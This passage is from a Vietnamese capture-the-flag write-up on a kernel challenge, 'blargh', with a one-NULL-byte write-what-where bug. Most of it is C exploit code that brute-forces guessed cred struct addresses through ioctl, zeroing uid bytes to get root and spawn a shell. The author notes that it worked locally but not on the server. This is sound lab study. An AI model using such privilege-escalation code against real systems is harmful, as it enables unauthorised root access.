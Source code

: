 ```python

    interactive()
```



## blargh

- đây là 1 bài kernel `write-what-where` one NULL byte , ở trong giải thì mình đã patch thành công để tạo loop và `target` là `cred` và thậm chí sau 1 lúc brute-force thì nó thành công ở local , nhưng sever thì không , sau 1 lúc tìm hiểu lại thì những thằng này được allocated khác nhau bởi `kmem_caches` . vì vậy có lẽ không thể brute-force được 

![image](https://hackmd.io/_uploads/BkNY8CR4ge.png)

```c
#include <fcntl.h>
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <unistd.h>
#define PRINTK 0xffffffff81303260
#define IOCTL_MAGIC 0x40086721
int main() {
  int fd = open("/dev/blargh", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return 1;
  }
  printf("done\n");
  fflush(stdout);
  unsigned long offset = 0x3ecfcdbf;
  if (ioctl(fd, 0x40086721, offset) < 0) {
    perror("ioctl");
  }

  uint64_t cred_base = 0xffff888004300000;
  uint64_t cred_end = 0xffff8880043d0000ULL;
  uint64_t step = 0x100;
  for (uint64_t guess = cred_base; guess < cred_end; guess += step) {
    uint64_t offsets[] = {
        0x08, 0x09, // uid
        0x18, 0x19, // fsuid
    };
    int failed = 0;
    for (int i = 0; i < sizeof(offsets) / sizeof(offsets[0]); i++) {
      int64_t offset = (int64_t)(guess + offsets[i] - PRINTK);
      if (ioctl(fd, IOCTL_MAGIC, offset) < 0) {
        perror("[-] ioctl failed");
        failed = 1;
        break;
      }
    }
    if (failed)
      continue;

    if (geteuid() == 0) {
      printf("[+] Got root!\n");
      system("/bin/sh");
      break;
    }
  }

```